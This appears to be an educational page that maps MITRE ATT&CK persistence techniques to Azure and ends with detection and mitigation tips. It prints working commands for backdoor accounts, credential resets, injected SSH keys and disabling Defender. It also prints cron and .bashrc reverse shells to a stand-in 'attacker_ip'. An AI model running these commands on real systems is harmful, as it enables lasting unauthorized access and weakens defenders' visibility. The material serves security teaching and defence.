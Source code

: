 ```yaml
---
hidden: true
---
```


# Persistence: TA0003

## **Overview**

Persistence refers to how attackers ensure continued access to a system or cloud environment, even after reboots, password changes, or other defensive efforts. In Azure, attackers leverage tools such as automation services, identities, or misconfigurations to establish long-term control.

### **1. Creating New or Backdoor Accounts**

**Technique: T1136 - Create Account**\
Attackers create new accounts to maintain access even if existing ones are revoked.

*   **T1136.002 - Domain Account:**\
    Create a **new Azure AD user** with elevated privileges:

    ```powershell
    New-AzureADUser -DisplayName "Hacker" -UserPrincipalName hacker@target.com -PasswordProfile (New-Object Microsoft.Open.AzureAD.Model.PasswordProfile -Property @{Password="P@ssw0rd"})
    ```

### **2. Using Stolen or Default Credentials (Valid Accounts)**

**Technique: T1078 - Valid Accounts**\
Compromised credentials provide persistent access to cloud resources.

*   **T1078.004 - Cloud Accounts:**\
    Attackers use **service principal tokens** to re-authenticate after MFA or password resets:

    ```bash
    az ad sp credential reset --name <ServicePrincipalName> --credential-description "Backdoor"
    ```

***

### **3. Modifying Authentication Methods for Backdoor Access**

**Technique: T1098 - Account Manipulation**\
Attackers modify accounts to ensure they can bypass authentication mechanisms.

*   **T1098.003 - SSH Authorized Keys:**\
    Upload an attacker’s **SSH key** to a compromised **Linux VM** for persistent remote access:

    ```bash
    echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys
    ```
* **T1098.003 - SSH Authorized Keys:**\
  Upload an attacker’s **SSH key** to a compromised **Linux VM** for persistent remote access:

```bash
echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys
```

### **4. Using Scheduled Tasks for Persistent Execution**

**Technique: T1053 - Scheduled Task/Job**\
Attackers use scheduled jobs to re-trigger malicious activities.

*   **T1053.003 - Cron Jobs:**\
    Add a **cron job** on a Linux VM to establish a reverse shell every minute:

    ```bash
    echo "* * * * * bash -i >& /dev/tcp/attacker_ip/4444 0>&1" >> /etc/crontab
    ```
* **T1053.005 - Scheduled Task:**\
  Use **Windows Task Scheduler** on an Azure VM to execute malware upon startup.

### **5. Injecting Malicious Code into Automation Tools**

**Technique: T1574.007 - Service Hijacking**\
Attackers modify automation tools to execute backdoor code.

*   **Azure Example:** Modify **Azure Automation Runbooks** to include malicious scripts:

    ```powershell
    Start-AzAutomationRunbook -Name "MaliciousRunbook"
    ```

### **6. Leveraging Service Principals for Long-Term Access**

**Technique: T1098.001 - Additional Cloud Credentials**\
Attackers add new credentials to service principals to maintain access.

*   **Azure Example:** Use **Azure CLI** to generate additional keys for an existing service principal:

    ```bash
    az ad sp credential reset --name <ServicePrincipalName> --credential-description "Persist"
    ```

### **7. Triggering Code Automatically Based on Events**

**Technique: T1546 - Event Triggered Execution**\
Attackers leverage triggers to run malicious code when specific events occur.

* **T1546.016 - Service Account Permissions:**\
  Modify automation accounts to execute malicious tasks whenever triggered by **system events**.

### **8. Disabling Security Controls to Maintain Persistence**

**Technique: T1562 - Impair Defenses**\
Attackers disable security features to avoid detection and maintain access.

*   **T1562.001 - Disable or Modify Tools:**\
    _Azure Example:_ Disable **Azure Defender** on VMs or storage to evade detection:

    ```bash
    az security pricing create --name VirtualMachines --tier 'Free'
    ```

### **9. Modifying Boot or Logon Scripts for Re-Entry**

**Technique: T1547 - Boot or Logon Initialization Scripts**\
Malicious code runs every time a system boots or a user logs in.

*   **T1547.004 - Unix Shell Configuration Modification:**\
    Modify the `.bashrc` file on a **Linux VM** to execute a reverse shell on login:

    ```bash
    echo "bash -i >& /dev/tcp/attacker_ip/4444 0>&1" >> ~/.bashrc
    ```

### **Summary of Key Concepts with Techniques for TA0003**

| **Key Concept**                     | **Technique**                                | **Azure Example**                                      |
| ----------------------------------- | -------------------------------------------- | ------------------------------------------------------ |
| Creating New or Backdoor Accounts   | T1136 - Create Account                       | Create a new Azure AD user with elevated privileges    |
| Using Stolen Credentials            | T1078 - Valid Accounts                       | Use service principal tokens for re-authentication     |
| Modifying Authentication Mechanisms | T1098 - Account Manipulation                 | Add SSH keys to Linux VMs for persistent access        |
| Scheduling Persistent Tasks         | T1053 - Scheduled Task/Job                   | Add cron jobs to trigger reverse shells                |
| Service Hijacking via Automation    | T1574.007 - Service Hijacking                | Modify automation runbooks for persistent backdoors    |
| Leveraging Service Principals       | T1098.001 - Additional Cloud Credentials     | Add new credentials to existing service principals     |
| Trigger-Based Execution             | T1546 - Event Triggered Execution            | Execute tasks on system events via automation accounts |
| Disabling Security for Persistence  | T1562 - Impair Defenses                      | Disable Azure Defender to evade detection              |
| Modifying Boot Scripts              | T1547 - Boot or Logon Initialization Scripts | Modify `.bashrc` to trigger reverse shells at login    |

### **How to Detect and Mitigate Persistence in Azure**

1. **Audit User and Service Accounts Regularly:**
   * Review Azure AD for newly created or suspicious accounts with high privileges.
2. **Monitor Role Assignments:**
   * Use **Azure AD Privileged Identity Management (PIM)** to limit and monitor access to sensitive roles.
3. **Enable Alerts for Automation Changes:**
   * Configure alerts when **automation accounts, runbooks, or service principals** are modified.
4. **Apply Conditional Access Policies:**
   * Enforce **MFA for all accounts** and restrict access based on geolocation and device compliance.
5. **Rotate Secrets and Keys Regularly:**
   * Ensure service principal keys and tokens are rotated and monitored for misuse.
